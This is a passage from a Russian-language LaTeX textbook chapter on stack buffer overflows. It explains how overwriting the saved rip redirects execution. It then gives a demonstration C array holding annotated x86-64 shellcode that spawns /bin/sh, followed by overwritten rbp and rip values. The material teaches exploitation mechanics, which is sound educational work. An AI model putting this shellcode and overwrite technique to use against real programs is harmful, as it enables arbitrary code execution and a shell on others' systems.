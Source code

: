 Адрес начала стека, а также, возможно, адреса локальных массивов и переменных выровнены на границу параграфа в 16 байт, из-за чего в стеке могут образоваться неиспользуемые байты.

Если в программе есть ошибка, которая может привести к переполнению выделенного буфера в стеке при копировании, есть возможность записать вместо сохраненного значения регистра -- \texttt{rip} новое. В результате по завершении данной функции исполнение начнется с указанного адреса. Если есть возможность записать в переполняемый буфер исполняемый код, а затем на место сохраненного регистра \texttt{rip} адрес на этот код, то получим исполнение заданного кода в стеке функции.

На рис. \ref{fig:stack-overflow} приведены исходный стек и стек с переполненным буфером, из-за которого записалось новое сохраненное значение \texttt{rip}.

\begin{figure}[!ht]
	\centering
	\texttt{[image: pic/stack-overflow]}
	\caption{Исходный стек и стек с переполнением буфера\label{fig:stack-overflow}}
\end{figure}


Изменим программу для демонстрации, поместив в копируемую строку исполняемый код для вызова \texttt{/bin/sh}.
{ \small
\begin{verbatim}
...
int main() {
  char text[68] =
    // 28 байт исполняемого кода
    "\x90" "\x90" "\x90"                // nop; nop; nop
    "\x48\x31" "\xD2"                   // xor %rdx, %rdx
    "\x48\x31" "\xF6"                   // xor %rsi, %rsi
    "\x48\xBF" "\xDC\xEA\xFF\xFF"
    "\xFF\x7F\x00\x00"                  // mov $0x7fffffffeadc,
                                        //   %rdi
    "\x48\xC7\xC0" "\x3B\x00\x00\x00"   // mov $0x3b, %rax
    "\x0F\x05"                          // syscall
    // 8 байт строки /bin/sh
    "\x2F\x62\x69\x6E\x2F\x73\x68\x00"  // "/bin/sh\0"
    // 12 байт заполнения и 16 байт новых
    // значений сохраненных регистров
    "\x00\x00\x00\x00"                  // не занятые байты
    "\x00\x00\x00\x00"                  // unsigned distance
    "\x00\x00\x00\x00"                  // unsigned diff
    "\x50\xEB\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rbp=0x7fffffffeb50
    "\xC0\xEA\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rip=0x7fffffffeac0
    ;
  ...
  return hamming_distance(b1, b2, text, 68);
  ...
}
\end{verbatim} }

